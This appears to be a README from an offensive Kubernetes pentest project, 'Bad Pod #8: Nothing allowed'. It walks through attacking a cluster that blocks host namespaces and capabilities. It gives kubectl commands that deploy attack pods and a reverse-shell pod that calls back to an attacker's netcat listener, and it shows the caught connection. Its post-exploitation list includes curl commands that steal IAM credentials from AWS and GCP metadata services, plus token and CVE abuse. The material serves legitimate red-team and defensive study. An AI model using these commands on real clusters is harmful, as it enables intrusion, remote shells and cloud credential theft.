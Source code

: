 # Bad Pod #8: Nothing allowed

The pod security policy or admission controller has blocked access to all of the host's namespaces and restricted all capabilities.  **Do not despair**, especially if the target cluster is running in a cloud environment. 


# Pod Creation
## Create a pod you can exec into
Create pod
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/nothing-allowed/pod/nothing-allowed-exec-pod.yaml 
```
Exec into pod 
```bash
kubectl exec -it nothing-allowed-exec-pod -- bash
```

## Reverse shell pod

Set up listener
```bash
nc -nvlp 3116
```

Create pod from local manifest without modifying it by using env variables and envsubst
```bash
HOST="10.0.0.1" PORT="3116" envsubst < ./manifests/everything-allowed/pod/nothing-allowed/pod/nothing-allowed-revshell-pod.yaml | kubectl apply -f -
```

Catch the shell
```bash
$ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```

# Post exploitation

* **Cloud metadata** - If cloud hosted, try to access the cloud metadata service. You might get access to the IAM credentials associated with the node, or even just a cloud IAM credential created specifically for that pod. In either case, this can be your path to escalate within the cluster, within the cloud environment, or both. 

```bash
curl http://169.254.169.254/latest/user-data # aws
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME] #aws
curl -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/[account]/default/token #gcp
```

* **Overly permissive service account** - If the default service account is mounted to your pod and is overly permissive, you can use that token to further escalate your privs within the cluster.
* **Anonymous-auth** - If either [the apiserver or the kubelets have anonymous-auth set to true](https://labs.f-secure.com/blog/attacking-kubernetes-through-kubelet/), and there are no network policy controls preventing it, you can interact with them directly without authentication. 
* **Exploits** - Is the kubernetes version vulnerable to an exploit, i.e. [CVE-2020-8558](https://github.com/tabbysable/POC-2020-8558)
* **Traditional vulnerability hunting** -Your pod will be able to see a different view of the network services running within the cluster than you likely can see from the machine you used to create the pod. You can hunt for vulnerable services by proxying your traffic through the pod. 




# Reference(s): 

* https://securekubernetes.com/
* https://madhuakula.com/kubernetes-goat/
* https://labs.f-secure.com/blog/attacking-kubernetes-through-kubelet/
* https://research.nccgroup.com/2020/02/12/command-and-kubectl-talk-follow-up/
* https://github.com/tabbysable/POC-2020-8558